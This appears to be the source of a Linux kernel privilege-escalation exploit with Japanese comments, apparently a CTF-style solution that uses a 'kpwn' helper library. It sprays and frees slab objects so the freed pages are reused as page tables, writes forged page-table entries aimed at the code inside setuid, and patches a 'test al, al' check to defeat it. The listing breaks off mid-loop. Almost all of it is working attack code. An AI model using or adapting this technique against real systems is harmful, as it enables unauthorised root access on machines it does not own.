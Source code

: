 ```c

/* Mirror of kernel-space request_t */
typedef struct {
  int id;
  size_t size;
  void *data;
} request_t;

/* Function prototypes */
void open_device(void);
int obj_alloc(int id);
int obj_write(int id, void *buf, size_t size);
int obj_free(int id);

int fd;

int main() {
  kpwn::misc::process_assign_to_core(0);
  uint64_t *buffer = (uint64_t *)malloc(0x1000);

  // allcoate pte entry at 0
  kpwn::memory::mmap(0x1, 0x0, 0x0, 0x0, 0x0, {.touch = 1});

  open_device();

  for (int i = 0; i < OBJ_MAX; i++)
    obj_alloc(i); // めっちゃ取って

  for (int i = OBJ_MAX - 1; i >= 0; i--)
    obj_free(i); // めっちゃ開放

  // ここで、一部のslubがbuddyに返され、再利用可能なpageになる。

  // 新しいPTEを確保する
  kpwn::memory::mmap(0x1, 0x0, 0x80, 0x0, 0x0, {.touch = 1});

  size_t dest_phy = 0xffffffff8128ad99; // setuid内の、if文の条件分岐部分を指している。

  int phy_aslr_base = 0;
  for (int i = 0; i < OBJ_MAX; i++) {
    for (int entry_idx = phy_aslr_base; entry_idx < phy_aslr_base + 64;
         entry_idx++)
      buffer[entry_idx] = kpwn::kernel::dest_to_pte_entry(dest_phy, entry_idx);

    // entry_idxをずらしながら、ありえる物理アドレスをPTEに書き込みまくっていく。

    obj_write(i, buffer, 0x200); // 本当は0x1000書き込みたいが、制約上0x200までしか書き込めない。ただ現実的にはこれでexploitできる。
  }

  for (int check_idx = phy_aslr_base; check_idx < phy_aslr_base + 64;
       check_idx++) {
    char *check_addr = (char *)kpwn::kernel::pti_to_virt(
        0x1, 0x0, 0x80, check_idx, dest_phy & 0xfff);

    // 実際に改ざんされたページテーブルを介してメモリアクセスを行ってみる。

    if (check_addr[0] == (char)0x84 && check_addr[1] == (char)0xc0) {
      check_addr[0] = 0x84;
      check_addr[1] = 0xff;
      kpwn::info("check_addr = %p", check_addr);
        
      // 目的の書き込み先を見つけた。
      // test al, al == 84c0
```